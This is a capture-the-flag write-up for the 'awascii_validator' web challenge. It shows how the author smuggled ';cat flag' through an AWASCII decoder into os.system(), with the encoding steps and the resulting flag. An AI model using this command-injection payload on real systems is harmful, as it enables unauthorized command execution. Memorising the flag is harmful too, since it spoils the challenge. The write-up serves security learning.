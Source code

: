 # awascii_validator

**Difficulty**: Medium

**Points earned**: 822

**Description**:

> Learning a new language is hard... maybe this could help with practice
> 
> 10 point hint: Where to start looking
> 
> Author: Sheepiroo
> 
> https://awascii-validator.jellyc.tf/

![awascii_validator input](./images/awascii_validator_input.png "awascii_validator input")

**Solution**: 

Like it says on the tin, the website decodes AWASCII into plaintext. I thought about doing a shell injection attack for this one just like [awafy_me](./awafy_me.md) but the application protects against this:

![awascii_validator invalid input](./images/awascii_validator_invalid.png "awascii_validator invalid input")

I unlocked the hint for this one but it didn't tell me anything i didn't already know:

> `os.system()` in awafier_decoder.py

Then I got the wild idea to encode `;cat flag.txt` into AWASCII (see page 5 of the [AWA5.0 spec](https://github.com/TempTempai/AWA5.0/blob/6fe3b2ef290a3df9c94822634c4ceb6c872cd2fd/AWA5.0%20Specs.pdf)). I did this manually but you could write a script to do this for you (and I ended up doing this later for [rev/lost_in_translation](../rev/lost_in_translation.md)).

```md
# plaintext
;cat flag

# ASCII code for each character
62 29 02 31 52 39 16 02 40

# in 6-bit binary
111110 011101 000010 011111 110100 100111 010000 000010 101000

# converted to AWASCII
wa wa wa wa wa awa
awa wa wa wa awa wa
awa awa awa awa wa awa
awa wa wa wa wa wa
wa wa awa wa awa awa
wa awa awa wa wa wa
awa wa awa awa awa awa
awa awa awa awa wa awa
wa awa wa awa awa awa

# concatenated with starting "awa"
awawawawawawa awa awawawawa awawa awa awa awa awawa awa awawawawawawawawa awawa awa awawa awa awawawawa awawa awa awa awa awa awa awa awa awawa awawa awawa awa awa awa
```
![awascii_validator solution](./images/awascii_validator_sol.png "awascii_validator solution")

**Flag**: `jellyCTF{m4st3rs_1n_awat1sm}`